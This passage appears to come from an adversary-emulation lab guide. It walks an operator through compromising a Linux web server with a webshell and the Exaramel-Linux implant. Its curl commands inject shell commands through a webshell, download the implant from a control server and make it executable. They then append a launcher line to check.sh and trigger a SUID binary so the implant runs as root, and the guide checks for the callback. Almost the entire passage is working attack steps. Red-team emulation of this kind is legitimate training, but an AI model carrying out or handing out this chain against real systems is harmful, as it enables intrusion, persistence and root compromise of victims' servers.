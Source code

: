 `Change IP address (10.10.0.120 -> 10.10.0.120) in source files and rebuild (Guide in README.md)`

```bash
cd /home/hoangtn/Desktop/VCS-wizard-spider/Resources/control_server/ && sudo ./controlServer
```

:warning: Go back to your P.A.S. webshell terminal.

Execute `curl` to download Exaramel-Linux to `/var/www/html/centreon_module_linux_app64`:

`rebuild Exaramel-Linux with enviroment same with victim enviroment and copy to /home/hoangtn/Desktop/VCS-wizard-spider/Resources/control_server/files/`

```bash
# P.A.S. Webshell can upload and download files to and from compromised hosts.

curl --insecure "https://192.168.30.233/search.php?cmd=curl+--insecure+https://10.10.0.120/getFile/Exaramel-Linux+-o+centreon_module_linux_app64"
```

Confirm 'centreon_module_linux_app64' downloaded successfully:

```bash
curl --insecure "https://192.168.30.233/search.php?cmd=ls+-lsah"
```

Make Exaramel-Linux executable via `chmod`.

```bash
# P.A.S. Webshell has the ability to modify file permissions.

curl --insecure "https://192.168.30.233/search.php?cmd=chmod+755+centreon_module_linux_app64"
```

Insert 1-liner into `/var/www/html/include/tools/check.sh`; the 1-liner executes Exaramel-Linux.

```bash
curl --insecure "https://192.168.30.233/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh"
```

Execute SUID binary, `/bin/backup`; this binary executes `check.sh` from the previous step, which causes Exaramel-Linux to be executed with root privileges.

```bash
# Exaramel for Linux can execute commands with high privileges via a specific binary with setuid functionality.

curl --insecure "https://192.168.30.233/search.php?cmd=/bin/backup" &
```

[Source Code](../../Resources/suid-binary/suid-binary.c)

:warning: Switch to your controlServer tab; you should have a new callback.

Take a screenshot of the new implant and paste in slack.

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 
